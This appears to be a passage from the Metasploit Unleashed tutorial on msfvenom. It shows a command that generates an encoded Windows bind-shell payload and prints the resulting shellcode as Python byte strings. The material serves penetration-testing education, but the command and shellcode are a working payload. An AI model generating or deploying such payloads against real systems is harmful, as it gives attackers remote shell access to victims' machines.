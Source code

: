 #### MSFvenom Command Line Usage

[a11y.text MSFvenom Command Line Usage](https://www.offsec.com/metasploit-unleashed/msfvenom/#msfvenom-command-line-usage)

We can see an example of the **msfvenom** command line below and its output:

```
root@kali:~# msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai succeeded with size 353 (iteration=1)
x86/shikata_ga_nai succeeded with size 380 (iteration=2)
x86/shikata_ga_nai chosen with final size 380
Payload size: 380 bytes
buf = ""
buf += "\xbb\x78\xd0\x11\xe9\xda\xd8\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x59\x31\x58\x13\x83\xc0\x04\x03\x58\x77\x32"
buf += "\xe4\x53\x15\x11\xea\xff\xc0\x91\x2c\x8b\xd6\xe9\x94"
buf += "\x47\xdf\xa3\x79\x2b\x1c\xc7\x4c\x78\xb2\xcb\xfd\x6e"
buf += "\xc2\x9d\x53\x59\xa6\x37\xc3\x57\x11\xc8\x77\x77\x9e"
buf += "\x6d\xfc\x58\xba\x82\xf9\xc0\x9a\x35\x72\x7d\x01\x9b"
buf += "\xe7\x31\x16\x82\xf6\xe2\x89\x89\x75\x67\xf7\xaa\xae"
buf += "\x73\x88\x3f\xf5\x6d\x3d\x9e\xab\x06\xda\xff\x42\x7a"
buf += "\x63\x6b\x72\x59\xf6\x58\xa5\xfe\x3f\x0b\x41\xa0\xf2"
buf += "\xfe\x2d\xc9\x32\x3d\xd4\x51\xf7\xa7\x56\xf8\x69\x08"
buf += "\x4d\x27\x8a\x2e\x19\x99\x7c\xfc\x63\xfa\x5c\xd5\xa8"
buf += "\x1f\xa8\x9b\x88\xbb\xa5\x3c\x8f\x7f\x38\x45\xd1\x71"
buf += "\x34\x59\x84\xb0\x97\xa0\x99\xcc\xfe\x7f\x37\xe2\x28"
buf += "\xea\x57\x01\xcf\xf8\x1e\x1e\xd8\xd3\x05\x67\x73\xf9"
buf += "\x32\xbb\x76\x8c\x7c\x2f\xf6\x29\x0f\xa5\x36\x2e\x73"
buf += "\xde\x31\xc3\xfe\xae\x49\x64\xd2\x39\xf1\xf2\xc7\xa0"
buf += "\x06\xd3\xf6\x1a\xfe\x0a\xfe\x28\xbe\x1a\x42\x9c\xde"
buf += "\x01\x16\x27\xbd\x29\x1c\xf8\x7d\x47\x2c\x68\x06\x0e"
buf += "\x23\x31\xfe\x7d\x58\xe8\x7b\x76\x4b\xfe\xdb\x17\x51"
buf += "\xfa\xdf\xff\xa1\xbc\xc5\x66\x4b\xea\x23\x86\x47\xb4"
buf += "\xe7\xd5\x71\x77\x2e\x24\x4a\x3d\xb1\x6f\x12\xf2\xb2"
buf += "\xd0\x55\xc9\x23\x2e\xc2\xa5\x73\xb2\xc8\xb7\x7d\x6b"
buf += "\x55\x29\xbc\x26\xdd\xf6\xe3\xf6\x25\xc6\x5c\xad\x9c"
buf += "\x9d\x18\x08\x3b\xbf\xd2\xff\x92\x18\x5f\x48\x9b\xe0"
buf += "\x7b\x03\xa5\x32\x11\x27\x2b\x25\xcd\x44\xdb\xbd\xb9"
buf += "\xcd\x48\xda\x56\x4c\x56\xd5\x04\x87\x48\x3a\x6b\x9c"
buf += "\x2a\x15\x4d\xbc\x0b\x56\x06\xb5\xc9\x46\xd0\xfa\x68"
buf += "\xa6\x76\xe9\x52\x2c\x24\x62\x28\xe1\x1d\x87\xb0\x66"
buf += "\x93\x85\x8f\x87\x0f\xcf\x16\x29\x76\x03\x55\x0c\x0e"
buf += "\x3f\x17\xac"
```

The **msfvenom** command and resulting shellcode above generates a Windows _bind shell_ with three iterations of the _shikata\_ga\_nai encoder_ without any null bytes and in the python format.
